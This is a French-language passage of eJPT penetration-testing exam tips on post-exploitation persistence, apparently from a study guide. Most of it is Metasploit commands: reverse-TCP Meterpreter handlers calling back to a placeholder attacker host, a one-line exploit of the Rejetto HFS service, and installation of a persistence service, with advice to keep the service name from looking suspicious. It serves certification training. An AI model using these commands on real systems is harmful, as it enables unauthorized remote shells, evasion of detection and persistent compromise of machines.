 
## 💡 9. Conseils et astuces eJPT

### Points critiques pour l'exam
- ✅ **Toujours vérifier privilèges** avant persistence (`getuid`)
- ✅ **Tester la reconnexion** après reboot
- ✅ **Utiliser handler en arrière-plan** (`exploit -j`)
- ✅ **Noter les credentials** du service créé
- ✅ **Documenter** les artefacts créés

### Erreurs courantes à éviter
- ❌ **Persistence sans privilèges Admin**
- ❌ **Oublier de tester après reboot**
- ❌ **Handler non configuré** pour reconnexion
- ❌ **Session unique** (pas de backup)
- ❌ **Nom de service** trop suspect

### Optimisations eJPT
```bash
# Handler automatique en background
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST attacker_ip
set LPORT 4444
set ExitOnSession false
exploit -j

# Multiple handlers pour redondance
set LPORT 4445; exploit -j
set LPORT 4446; exploit -j
```

### Workflow optimisé examen
```bash
# 1. Exploitation rapide
msfconsole -x "use exploit/windows/http/rejetto_hfs_exec; set RHOSTS target; set LHOST attacker; exploit"

# 2. Persistence immédiate
# (dans session Meterpreter)
background
use exploit/windows/local/persistence_service
set SESSION 1
exploit

# 3. Handler backup
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST attacker_ip
set LPORT 4444
exploit -j
```

---
